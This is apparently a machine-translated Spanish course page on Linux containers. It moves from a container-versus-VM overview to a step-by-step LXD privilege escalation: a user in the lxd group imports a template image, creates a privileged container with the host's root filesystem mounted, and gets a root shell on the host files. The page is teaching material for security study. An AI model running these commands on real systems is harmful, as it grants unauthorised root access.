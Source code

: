 # Contenedores

---

Los contenedores funcionan a nivel del sistema operativo y máquinas virtuales a nivel de hardware. Por lo tanto, los contenedores comparten un sistema operativo y aislar los procesos de aplicación del resto del sistema, mientras que la virtualización clásica permite que múltiples sistemas operativos se ejecuten simultáneamente en un solo sistema.

El aislamiento y la virtualización son esenciales porque ayudan a gestionar los recursos y los aspectos de seguridad de la manera más eficiente posible. Por ejemplo, facilitan el monitoreo para encontrar errores en el sistema que a menudo no tienen nada que ver con las aplicaciones recientemente desarrolladas. Otro ejemplo sería el aislamiento de procesos que generalmente requieren privilegios de raíz. Dicha aplicación podría ser una aplicación web o API que debe aislarse del sistema de host para evitar la escalada a las bases de datos.

---

## Contenedores de Linux

Contenedores de Linux (`LXC`) es una técnica de virtualización a nivel de sistema operativo que permite que múltiples sistemas Linux se ejecuten de forma aislada entre sí en un solo host poseer sus propios procesos pero compartiendo el núcleo del sistema host para ellos. LXC es muy popular debido a su facilidad de uso y se ha convertido en una parte esencial de la seguridad de TI.

Por defecto,`LXC`Consume menos recursos que una máquina virtual y tenga una interfaz estándar, lo que facilita la administración de múltiples contenedores simultáneamente. Una plataforma con`LXC`Incluso se puede organizar en múltiples nubes, proporcionando portabilidad y garantizando que las aplicaciones que se ejecutan correctamente en el sistema del desarrollador funcionen en cualquier otro sistema. Además, se pueden iniciar, parar grandes aplicaciones o sus variables de entorno cambiadas a través de la interfaz de contenedor de Linux.

La facilidad de uso de`LXC`es su ventaja más significativa en comparación con las técnicas de virtualización clásica. Sin embargo, la enorme propagación de`LXC`, un ecosistema casi totalmente abarcador, y las herramientas innovadoras se deben principalmente a la plataforma Docker, que estableció contenedores de Linux. Toda la configuración, desde la creación de plantillas de contenedores y la implementación, la configuración del sistema operativo y las redes, hasta la implementación de aplicaciones, sigue siendo la misma.

#### Demonio de Linux

Daemon Linux ([Lxd](https://github.com/lxc/lxd)) es similar en algunos aspectos, pero está diseñado para contener un sistema operativo completo. Por lo tanto, no es un contenedor de aplicación sino un contenedor del sistema. Antes de que podamos usar este servicio para aumentar nuestros privilegios, debemos estar en el`lxc`o`lxd`grupo. Podemos encontrar esto con el siguiente comando:

  Contenedores

```shell-session
container-user@nix02:~$ id

uid=1000(container-user) gid=1000(container-user) groups=1000(container-user),116(lxd)
```

De aquí en adelante, ahora hay varias formas en que podemos explotar`LXC`/`LXD`. Podemos crear nuestro propio contenedor y transferirlo al sistema de destino o usar un contenedor existente. Desafortunadamente, los administradores a menudo usan plantillas que tienen poca o ninguna seguridad. Esta actitud tiene la consecuencia de que ya tenemos herramientas que podemos usar contra el sistema nosotros mismos.

  Contenedores

```shell-session
container-user@nix02:~$ cd ContainerImages
container-user@nix02:~$ ls

ubuntu-template.tar.xz
```

Dichas plantillas a menudo no tienen contraseñas, especialmente si son entornos de prueba sin complicaciones. Estos deben ser accesibles rápidamente y sin complicaciones para usar. El enfoque en la seguridad complicaría toda la iniciación, lo haría más difícil y, por lo tanto, lo ralentizaría considerablemente. Si tenemos un poco de suerte y hay un contenedor en el sistema, se puede explotar. Para esto, necesitamos importar este contenedor como una imagen.

  Contenedores

```shell-session
container-user@nix02:~$ lxc image import ubuntu-template.tar.xz --alias ubuntutemp
container-user@nix02:~$ lxc image list

+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
|                ALIAS                | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |      TYPE       |   SIZE    |          UPLOAD DATE          |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
| ubuntu/18.04 (v1.1.2)               | 623c9f0bde47 | no    | Ubuntu bionic amd64 (20221024_11:49)     | x86_64       | CONTAINER       | 106.49MB  | Oct 24, 2022 at 12:00am (UTC) |
+-------------------------------------+--------------+--------+-----------------------------------------+--------------+-----------------+-----------+-------------------------------+
```

Después de verificar que esta imagen se ha importado correctamente, podemos iniciar la imagen y configurarla especificando el`security.privileged`bandera y la ruta de la raíz para el contenedor. Esta bandera deshabilita todas las características de aislamiento que nos permiten actuar en el host.

  Contenedores

```shell-session
container-user@nix02:~$ lxc init ubuntutemp privesc -c security.privileged=true
container-user@nix02:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
```

Una vez que hayamos hecho eso, podemos iniciar el contenedor e iniciar sesión en él. En el contenedor, podemos ir a la ruta que especificamos para acceder al`resource`del sistema de host como`root`.

  Contenedores

```shell-session
container-user@nix02:~$ lxc start privesc
container-user@nix02:~$ lxc exec privesc /bin/bash
root@nix02:~# ls -l /mnt/root

total 68
lrwxrwxrwx   1 root root     7 Apr 23  2020 bin -> usr/bin
drwxr-xr-x   4 root root  4096 Sep 22 11:34 boot
drwxr-xr-x   2 root root  4096 Oct  6  2021 cdrom
drwxr-xr-x  19 root root  3940 Oct 24 13:28 dev
drwxr-xr-x 100 root root  4096 Sep 22 13:27 etc
drwxr-xr-x   3 root root  4096 Sep 22 11:06 home
lrwxrwxrwx   1 root root     7 Apr 23  2020 lib -> usr/lib
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib32 -> usr/lib32
lrwxrwxrwx   1 root root     9 Apr 23  2020 lib64 -> usr/lib64
lrwxrwxrwx   1 root root    10 Apr 23  2020 libx32 -> usr/libx32
drwx------   2 root root 16384 Oct  6  2021 lost+found
drwxr-xr-x   2 root root  4096 Oct 24 13:28 media
drwxr-xr-x   2 root root  4096 Apr 23  2020 mnt
drwxr-xr-x   2 root root  4096 Apr 23  2020 opt
dr-xr-xr-x 307 root root     0 Oct 24 13:28 proc
drwx------   6 root root  4096 Sep 26 21:11 root
drwxr-xr-x  28 root root   920 Oct 24 13:32 run
lrwxrwxrwx   1 root root     8 Apr 23  2020 sbin -> usr/sbin
drwxr-xr-x   7 root root  4096 Oct  7  2021 snap
drwxr-xr-x   2 root root  4096 Apr 23  2020 srv
dr-xr-xr-x  13 root root     0 Oct 24 13:28 sys
drwxrwxrwt  13 root root  4096 Oct 24 13:44 tmp
drwxr-xr-x  14 root root  4096 Sep 22 11:11 usr
drwxr-xr-x  13 root root  4096 Apr 23  2020 var
```